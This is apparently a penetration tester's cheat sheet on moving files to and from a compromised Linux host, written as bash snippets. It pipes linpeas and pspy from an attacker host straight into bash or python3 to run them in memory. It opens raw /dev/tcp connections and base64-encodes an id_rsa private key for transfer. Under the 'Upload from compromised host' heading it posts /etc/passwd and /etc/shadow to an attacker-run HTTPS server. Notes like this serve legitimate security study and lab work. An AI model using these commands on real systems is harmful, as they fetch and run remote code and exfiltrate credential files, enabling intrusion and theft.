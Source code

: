 ## Download
#### Web Downloads
```bash
wget http://$ip/linpeas.sh -o linpeas.sh
curl http://$ip/linpeas.sh -o linpeas.sh
```

Execute in memory
```bash
wget -qO- http://$ip/pspy | python3 
curl http://$ip/linpeas.sh | /bin/bash
```
#### Bash
Connect to Target Webserver, HTTP GET Request, print response
```bash
exec 3<>/dev/tcp/$ip/80
echo -e "GET /linpeas.sh HTTP/1.1\n\n">&3
cat <&3
```
#### SSH
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt
```

```bash
scp plaintext@$ip:/home/adot/opt/linpeas.sh . 
```
##### Base64 Conversion
```bash
md5sum id_rsa
cat id_rsa |base64 -w 0;echo
```

```bash
echo -n 'S0tLS1CRUdJTiBPU...' | base64 -d > id_rsa
md5sum id_rsa
```

## Upload
#### Web Upload
Setup webserver
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

mkdir https && cd https
python3 -m uploadserver 443 --server-certificate ~/server.pem
```
Upload from compromised host
```bash
curl -X POST https://$ip/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
##### Alternatively (stand up mini webserver on host)
```bash
python3 -m http.server
python2.7 -m SimpleHTTPServer
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000
```
Download
```bash
wget http://$target_ip/sourcecode.zip
```
#### SSH
```bash
scp sourcecode.zip adot@$ip:/home/adot/cpts/NIX01
```